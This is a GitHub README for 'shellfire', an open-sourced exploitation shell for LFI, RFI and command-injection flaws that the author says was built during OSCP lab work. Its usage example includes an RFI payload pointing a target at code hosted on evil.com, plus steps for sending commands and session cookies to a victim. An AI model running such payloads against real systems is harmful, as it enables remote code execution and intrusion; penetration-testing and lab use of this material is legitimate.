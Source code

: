 # shellfire

_shellfire_ is an exploitation shell which focuses on exploiting LFI, RFI, and 
command injection vulnerabilities.

Recently, I received some inspiration while working on my OSCP labs. I 
accidentally ended up writing this script, and it ended up helping me pwn a 
number of boxes in the labs.

Now that my labs are finished, I thought maybe other people could find this as 
useful as I have, so I decided to open source my tool.

## Features  

- [X] Persistent named configuration for multiple targets (and sharing!)  
- [X] Plugin system  
- [X] PHP paylod  
- [X] ASP paylod  
- [X] Dockerized vulnerable apps for testing  


## Installation  

Run `pip install -r requirements.txt` to install the application dependencies.  


## A few useful hints

To use shellfire, just fire it up via python (or add execute permissions and 
launch it directly). For example:

```
$ python shellfire.py
[*] ShellFire v0.1
[*] Type '.help' to see available commands
>>
```

You can type `.help` at any time for a list of available commands, or append 
the command you want to know more information about to help for specific 
details. For example `.help http`.

To start exploitation, you need to specify at least the URL of your target. 
Something like the following should work:

```
>> .url http://example.com/?path=http://evil.com/script.php
```

At this point, you should have enough to exploit easy vulnerabilities. You can 
simply start executing commands and they will be sent over to the target.

For more complex vulnerabilities, you may need to specify additional options. 
To exemplify, let's assume you needed to send a cookie with a session ID in 
order to exploit your target. You may want to add something like this:

```
>> .cookies { "session_id" : "123456789" }
```

Additional options, and information on how to use them, can be discovered by 
using the `.help` option in the shell.

Thanks to Offensive-Security for inspiring the creation of this utility.

Please use this tool for good.

Happy hacking!


## Testing  

The [docker](/docker) directory contains a small collection of vulnerable 
applications for testing shellfire's functionality.